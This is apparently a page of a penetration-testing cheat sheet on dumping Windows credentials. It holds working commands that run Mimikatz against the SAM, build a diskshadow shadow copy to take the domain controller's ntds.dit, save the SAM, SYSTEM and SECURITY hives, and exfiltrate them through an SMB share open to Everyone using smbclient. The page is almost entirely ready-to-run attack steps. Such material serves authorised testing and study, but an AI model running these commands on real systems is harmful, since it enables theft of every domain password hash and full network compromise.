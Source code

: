 
## SAM



### Mimikatz

```
PS > Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "lsadump::sam" "exit"'
```




## NTDS + SAM

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create shadow volume:

```
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

```
// add_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```

Exfiltrate over SMB:

```
mkdir C:\smb_pentest
copy w:\Windows\NTDS\ntds.dit C:\smb_pentest\ntds.dit
cmd /c reg.exe save hklm\system C:\smb_pentest\system.hive
cmd /c reg.exe save hklm\sam C:\smb_pentest\sam.hive
cmd /c reg.exe save hklm\security C:\smb_pentest\security.hive
cmd /c net share pentest=c:\smb_pentest /GRANT:"Everyone,FULL"

$ smbclient.py 'snovvcrash:Passw0rd!@127.0.0.1'
> use pentest
> get ntds.dit
> get system.hive
> get sam.hive
> get security.hive
```
